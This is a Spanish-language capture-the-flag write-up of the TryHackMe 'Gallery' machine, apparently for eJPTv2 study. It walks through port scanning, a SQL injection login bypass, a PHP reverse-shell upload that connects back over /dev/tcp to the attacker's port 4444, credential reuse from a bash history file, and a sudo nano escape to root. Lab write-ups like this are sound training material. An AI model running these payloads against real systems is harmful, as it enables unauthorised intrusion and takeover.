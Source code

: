 ```yaml
---
title: Gallery
date: 2024-09-30
categories: [WRITEUPS, PREPARING EJPTv2]
tags: []  # TAG names should always be lowercase
image: /assets/images/ejptv2/ejptV2.png
---
```


![picture](/assets/images/ejptv2/gal1.png)

---

En la máquina **Gallery** de **TryHackMe**, explotaré un **SQL Injection** para acceder a un gestor de contenidos, por el cual accederé a la máquina, y escalaré privilegios gracias a los permisos de **SUDO** del usuario sobre un script.

---

En este ***Writeup*** se engloban las siguientes fases:
- **[Reconocimiento](#reconocimiento)**
- **[Explotación](#explotación)**
- **[Escalada de privilegios](#escalada-de-privilegios)**
    - *[Escalada de privilegios a Root](#escalada-de-privilegios-a-root)*

---

## **Reconocimiento**

Lo primero que realizaré será un escaneo con `NMAP`, para comprobar los puertos abiertos de la máquina, y los servicios que corren por ellos.

```bash
nmap -p- --open --min-rate=5000 10.10.104.68 -n -Pn -v
```

![picture](/assets/images/ejptv2/gal2.png){: w="600" h="300" }

Una vez encontrados los puertos abiertos, voy al navegador para comprobar el contenido del puerto `80`.

Y encuentro una página por defecto de `Apache2`.

![picture](/assets/images/ejptv2/gal3.png)

Al no encontrar nada, procedo a realizar `Fuzzing` con la herramienta *`Gobuster`*, para intentar encontrar archivos o rutas mediante un ataque de fuerza bruta.

```bash
gobuster dir -u http://10.10.104.68 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x .txt,.php,.md -b 404,403 2>/dev/null
```

Y encuentra una ruta llamada *"`/gallery`"*.

![picture](/assets/images/ejptv2/gal4.png)

Al acceder a la ruta encontrada, me redirige a un panel de **login**, probando credenciales comunes no obtengo resultado, voy a volver a realizar `Fuzzing` para ver el contenido de la ruta *`Gallery`*.

![picture](/assets/images/ejptv2/gal5.png)

```bash
gobuster dir -u http://10.10.104.68/gallery -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x .txt,.php,.md -b 404,403,500 2>/dev/null
```

Y nos encuentra todas estas rutas, investigando sobre las rutas no encuentro nada interesante.

![picture](/assets/images/ejptv2/gal6.png)

---

## **Explotación**

Volviendo a enfocarme en el panel de **Login**, consigo ejecutar una **`SQL Injection`**, y accedo al gestor de contenidos como usuario `Admin`. 

- Inyección SQL

    ```bash
    admin'or 1=1;-- -
    ```

![picture](/assets/images/ejptv2/gal7.png){: w="400" h="300" }

![picture](/assets/images/ejptv2/gal8.png)

(*Más tarde me he dado cuenta que con la dirección IP, y el puerto 8080 encontrado con NMAP, entraba directamente al gestor de contenido sin uso de credenciales...*)

La versión del gestor de contenidos `Simple Image Gallery` es la `1.0`, buscando en [Internet](https://packetstormsecurity.com/files/163876/Simple-Image-Gallery-1.0-Shell-Upload.html) encuentro que para esta versión existe la posibilidad de subir un archivo con código `PHP` en el avatar del usuario, y capacidad para su posterior ejecución.

- La idea es obtener una `Reverse Shell`, para ello crearé un archivo con el nombre ``simple-shell.php``, y el siguiente contenido.

    ```php
    <?php
    exec("/bin/bash -c 'bash -i > /dev/tcp/'Nuestra IP'/4444 0>&1'");
    ?>
    ```

Una vez lo tengamos lo subimos.

![picture](/assets/images/ejptv2/gal9.png)

Y una vez subido, crearemos un `Listener` con `ncat` para recibir la `Reverse Shell`.

- Listener

    ```bash
    nc -lnvp 4444
    ```

Y cuando estemos escuchando, nos dirigiremos a la ruta `http://10.10.104.68/gallery/uploads/`, y ahí encontraremos nuestro archivo, clicamos sobre él.

![picture](/assets/images/ejptv2/gal10.png){: w="600" h="300" }

Y obtenemos una `Shell interactiva` en nuestra máquina local como el usuario `www-data`.

![picture](/assets/images/ejptv2/gal11.png)

Realizo un tratamiento de la `TTY`, para tener una interacción más limpia con la terminal.

```bash
script /dev/null -c bash
Ctrl_Z
stty raw -echo;fg
ls
export SHELL=/bin/bash
export TERM=screen
stty rows 51 columns 208
reset
```

---

## **Escalada de privilegios**

Dentro de la ruta `/var/backups`, encuentro un directorio llamado `mike_home_backup`, y dentro de el directorio encuentro un archivo de texto con credenciales para 3 webs.

![picture](/assets/images/ejptv2/gal12.png){: w="600" h="300" }

Probando a intentar migrar de usuario a `mike`, por si hubiese reutilización de contraseñas, no obtengo resultado.

Listando los archivos ocultos del directorio de ``backup`` de ``mike``, veo el contenido del archivo `.bash_history`, y encuentro una contraseña.

![picture](/assets/images/ejptv2/gal13.png){: w="600" h="300" }

Intentando migrar al usuario `mike`, obtengo acceso.

![picture](/assets/images/ejptv2/gal14.png)

#### **Escalada de privilegios a Root**

Listando los permisos de `SUDO`, descubro que no necesita contraseña para ejecutar el script `/opt/rootkit.sh`.

![picture](/assets/images/ejptv2/gal15.png)

Listando el contenido del script, viendo que podemos ejecutar el comando `NANO` en la opción `read`, con los permisos de `SUDO`, en la web [**GTFOBins - nano**](https://gtfobins.github.io/gtfobins/nano/) nos muestra como podemos escalar privilegios.

![picture](/assets/images/ejptv2/gal16.png){: w="600" h="300" }

- Realizamos los siguientes pasos.

    ```bash
    sudo /bin/bash /opt/rootkit.sh
    read
    CTRL+R
    CTRL+X
    reset; sh 1>&0 2>&0
    /bin/bash
    ```

- Elegimos la opción `read`.

    ![picture](/assets/images/ejptv2/gal17.png)

- Introducimos el comando de la web `GTFOBins`.

    ![picture](/assets/images/ejptv2/gal18.png)

- Ejecutamos una `bash`.

    ![picture](/assets/images/ejptv2/gal19.png)

- Somos el usuario privilegiado.

    ![picture](/assets/images/ejptv2/gal20.png)

Para contestar la pregunta de `TryHackMe`, para el hash del administrador, una vez somos `root`, simplemente tendremos que conectarnos a la base de datos corriendo por el puerto ``3306``, y buscar la tabla de usuarios.

```bash
mysql -u root -p
show databases;
```